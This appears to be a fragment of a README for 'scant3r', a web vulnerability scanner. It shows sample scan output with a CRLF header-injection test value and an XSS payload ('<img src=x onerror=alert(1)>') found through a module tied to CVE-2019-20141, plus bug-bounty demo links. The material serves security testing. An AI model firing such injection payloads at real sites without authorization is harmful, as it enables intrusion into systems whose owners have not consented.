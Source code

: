 ```
[!] Data :> test=%0AHeader-Test:BLATRUC

```
* **neon**
```bash
# CVE-2019-20141 - https://knassar702.github.io/cve/neon/
┌─[knassar702@PC]─[~/tools/scant3r]
└──╼ $echo http://$$$$$.com/admin/ | python3 scant3r.py -m neon


   ____              __  ____
  / __/______ ____  / /_|_  /____
 _\ \/ __/ _ `/ _ \/ __//_ </ __/
/___/\__/\_,_/_//_/\__/____/_/


[!] Coded by : Khaled Nassar @knassar702
[!] Version : 0.5#Beta
    	
[!] timeout : 10
[!] random-agent : False
[!] threads : 20
[!] module : neon,
[!] URLS : 1
[!] host : None

[!] Bug : Cross-site scripting
[!] Payload: <img src=x onerror=alert(1)>
[!] Method: GET
[!] parameter: q
[!] Link: q=<img src=x onerror=alert(1)>
|-----------------|

```

### Demo 

![Example](images/all.gif)

**Nokia** https://www.nokia.com/responsible-disclosure/
![Nokia](images/nokia.gif)

**IBM** https://hackerone.com/ibm

![IBM](images/ibm.png)



### writing your scant3r module
## all functions
